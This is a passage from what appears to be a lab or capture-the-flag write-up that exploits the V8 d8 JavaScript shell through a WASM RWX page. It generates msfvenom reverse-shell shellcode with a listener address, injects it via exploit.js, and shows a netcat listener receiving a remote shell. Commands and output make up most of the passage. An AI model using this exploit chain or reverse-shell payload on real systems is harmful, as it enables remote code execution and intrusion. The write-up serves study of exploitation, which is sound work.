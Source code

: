     Thread 1 "d8" received signal SIGTRAP, Trace/breakpoint trap.
    0x00003937f5d78001 in ?? ()
    

The RIP is at 0x00003937f5d78001, and the leaked rwx page address is
0x3937f5d78000, so that’s a hit!

#### Weaponize Shellcode

Next I need to put real shellcode in. I’ll start with a payload that will get
a reverse shell from my Ubuntu dev VM back to my Kali VM on my local nextwork.
`msfvenom` has the payload format `dword`, which I can use to get the
shellcode in a format I can drop into `exploit.js`:

    
    
    root@kali# msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.1.1.140 LPORT=443 -f dword
    [-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
    [-] No arch selected, selecting arch: x64 from the payload
    No encoder specified, outputting raw payload
    Payload size: 76 bytes
    Final size of dword file: 232 bytes
    0x9958296a, 0x6a5f026a, 0x050f5e01, 0xb9489748, 0xbb010002, 0x8c01010a, 0xe6894851, 0x6a5a106a, 
    0x050f582a, 0x485e036a, 0x216aceff, 0x75050f58, 0x583b6af6, 0x2fbb4899, 0x2f6e6962, 0x53006873, 
    0x52e78948, 0xe6894857, 0x0000050f
    

Start `nc` on kali and update `exploit.js`. Now I’ll run it in `d8`:

    
    
    gef➤  run --allow-natives-syntax exploit.js --shell
    Starting program: /home/df/v8/out.gn/x64.release/d8 --allow-natives-syntax exploit.js --shell
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
    [New Thread 0x7f05e643e700 (LWP 67861)]
    [*] Creating WASM RWX page
    [+] Found pointer to wasm_instance: 0x82112a5
    [+] Found address of rwx page: 0x8ac78c42000
    [*] Copying shellcode tp rwx page
    [*] Executing shellcode...
    [Thread 0x7f05e643e700 (LWP 67861) exited]
    process 67857 is executing new program: /usr/bin/dash
    

It hangs here, but at `nc`, there’s a shell:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.1.1.163.
    Ncat: Connection from 10.1.1.163:40672.
    id
    uid=1000(df) gid=1000(df) groups=1000(df),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),131(lxd),132(sambashare),998(vboxsf)
    hostname
    buntu
    